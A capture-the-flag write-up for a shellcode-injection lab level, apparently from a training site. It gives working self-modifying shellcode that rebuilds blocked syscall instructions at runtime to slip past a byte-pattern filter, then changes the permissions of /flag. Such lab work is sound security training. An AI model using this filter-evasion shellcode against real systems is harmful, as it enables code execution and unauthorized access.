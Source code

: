 <div alt="page-break" class="page-break"></div>

## Level6

> **From the challenge description:**
> This challenge requires that your shellcode does not have any `syscall`, 'sysenter', or `int` instructions. System calls are too dangerous! This filter works by scanning through the shellcode for the following byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), and 80cd (`int`). One way to evade this is to have your shellcode modify itself to insert the `syscall` instructions at runtime.
>
> Removing write permissions from first 4096 bytes of shellcode.

Replace the shellcode variable in the script of **level1** with the code below:

```python
shellcode = "nop\n" * 4096
shellcode += '''
    mov rax, 90 
    lea rdi, [rip+flag]
    mov rsi, 0777
    add byte ptr [rip], 1
    .byte 0x0e
    .byte 0x05

    mov rax, 60
    add byte ptr [rip], 1
    .byte 0x0e
    .byte 0x05

flag:
    .ascii "/flag"
'''
```

Run it with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

> This level is a combination of **level2** and **level5**. A trick to add all those nope directly from assembly code is:
>
> ```python
> shellcode = '''
>     .rept 4096
>         nop
>     .endr
> 
>     mov rax, 90
>     [...]
> '''
> ```
>
> The instructions **[...]** inside of a `.rept n [...] .endr ` block are repeated **n** times.
